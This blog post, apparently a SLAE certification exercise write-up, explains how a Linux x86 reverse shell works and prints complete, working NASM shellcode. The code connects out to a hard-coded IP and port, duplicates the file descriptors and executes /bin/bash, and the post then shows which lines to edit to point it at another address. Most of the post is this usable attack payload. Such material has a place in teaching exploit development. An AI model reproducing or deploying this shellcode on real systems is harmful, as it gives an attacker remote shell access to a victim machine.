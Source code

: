 ```yaml
---
layout: post
title: SLAE Exercise 2 - Reverse Shell
subtitle: Linux x86 Reverse Shell
tags: [SLAE]
---
```


**Overview**
The second task of the SLAE exam required a bind shell to be written. The requirements for this were as follows:

- Reverse connects to configured IP and Port
- Execs shell on succesful connection
- IP and Port should be easily configurable

**Requirements**

To determine the requirements for this exercise it needs to be understood what a reverse shell is. 

*What is a reverse shell?* 
A reverse shell connects back to the listening attacker's system, presenting that connection with a shell to the target system. 

*So what is needed from a reverse shell?* 
As per the requirements, it needs to reverse connect to a configured IP address and port and execute a shell on a successful connection. 

Due to the similarities between this and a bind shell, no higher level code will need to be analysed to determine what to do. The main difference between the two shells is that with a bind shell the system is awaiting an inbound connection and with a reverse shell the system is actively connecting outbound. Let's take a look at the socket calls that were used for the bind shell:

- Socket
- Bind
- Listen
- Accept
	
As can be seen here, for the bind shell a socket was created, it was bound to a port then set to listen for an incoming connection and will ultimately accept that connection. For a reverse shell the socket doesn't need to do any of the socketcall syscalls after creating the socket, instead it needs to use the 'connect' socketcall to connect outbound to  the waiting attackers machine. Based on this, the syscalls that are required for the reverse shell will be:

- socket (socketcall) - to create a socket
- connect (socketcall) - to use the previously created socket to connect outbound
- dup2 - To duplicate file descriptors allowing the connection to effectively be 'piped'
- execve - To execute /bin/bash, presenting it to the socket connection

The majority of this shellcode has been heavily explained within exercise 1. The exception being the connect socketcall. From the man pages for connect - 'man 2 connect', the structure required can be seen as below:

```
	int connect(int sockfd, const struct sockaddr *addr,socklen_t addrlen);
```

Therefore values have to be pushed to the stack to satisfy these requirements to be placed into ecx. What is needed it:

1. The File Descriptor returned from the socket (edx)
2. The sockaddr structure, found in 'man 7 ip'
3. The addrlen, which will use the stack pointer

Based on the code written for the reverse shell [here](https://github.com/14Deep/SLAE/tree/master/Exercise%202), the stack has been visualised which should clear up what will be where on the stack when the pointer is pushed to ecx. The stack would appear as below:

	Addr	Value	  Description
  
	0x6	  Edx	  FD from socketcall
	0x5	  *0x3	  Pointer to location 0x3
	0x4	  0x10	  Addrlen set to 16 bytes
	0x3	  0x2	  2 for IF_INET
	0x2	  0x4d01  The port required (333)
	0x1	  0xec01  IP address
	0x0	  0xa8c0  IP address

The code that has been written can be seen below, note that this has no comments and is only the code. The fully commented version can be found on Github as referenced earlier. The code for this exercise is:

```
; Filename: reverse.nasm
; Author:   Jake
; Website:  http://github.com/14deep
; Purpose:  Reverse shell shellcode for Linux x86 for the SLAE course


global _start			

section .text
_start:

  xor eax, eax
  xor ebx, ebx
  xor ecx, ecx
  xor edx, edx
  xor esi, esi

  ;Socket - create a socket
  push eax     
  push 0x1    
  push 0x2     
  mov al, 0x66 
  mov bl, 0x1 
  mov ecx, esp 
  int 0x80     
  mov edx, eax 

  ;Connect - Connect outbound
  mov al, 0x66 
  mov bl, 0x3  
  push dword 0xec01a8c0 
  push word 0x4d01      
  push word 0x2	      
  mov ecx, esp 
  push 0x10    
  push ecx     
  push edx     
  mov ecx, esp 
  int 0x80     

  ;dup2 - duplicate the file descriptor to redirect the incoming connection 
  mov al, 0x3f  
  mov ebx, edx  
  mov ecx, esi  
  int 0x80      
  mov al, 0x3f
  inc ecx       
  int 0x80      
  mov al, 0x3f
  inc ecx       
  int 0x80      
	
  ;execve - execute '/bin/bash' to provide a shell
  xor eax, eax  
  push eax      
  push 0x68736162
  push 0x2f6e6962
  push 0x2f2f2f2f
  mov ebx, esp 
  xor ecx, ecx 
  xor edx, edx 
  mov al, 0xb   
  int 0x80    
  ```

The following should be changed in order to change the IP address connected to and the port:
```
	Push dword 0xec01a8c0
	Push word 0x4d01
```



